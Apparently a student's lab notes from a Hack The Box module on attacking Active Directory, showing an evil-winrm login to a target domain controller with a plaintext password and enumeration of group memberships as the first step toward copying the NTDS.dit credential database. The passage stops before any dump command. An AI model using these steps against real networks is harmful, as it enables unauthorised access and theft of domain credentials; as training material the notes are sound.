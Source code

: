 First we can connect to the target DC using EVIL-WINRM

```shell-session
JackTheWizard@htb[/htb]$ evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Once connected we can check to see what privileges bwilliamson gas, We can start with looking at the local group membership using the command 

```shell-session
*Evil-WinRM* PS C:\> net localgroup
```

We are looking to see if the account has local admin rights which is needed to make a copy of the NTDS.dit file, we need local admin or domain admin rights. We also wanna check what domain privledges we have. If the user is a part of the (`Administrators group`) they are a local admin and if they are part of the (`Domain Admins group`) they are domain admins it could also be called something else.


#### Checking User Account Privileges including Domain

Attacking Active Directory & NTDS.dit

```shell-session
*Evil-WinRM* PS C:\> net user bwilliamson

User name                    bwilliamson
Full Name                    Ben Williamson
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/13/2022 12:48:58 PM
Password expires             Never
Password changeable          1/14/2022 12:48:58 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/14/2022 2:07:49 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.
```

This account has both Administrators and Domain Administrator rights which means we can do just about anything we want, including making a copy of the NTDS.dit file.
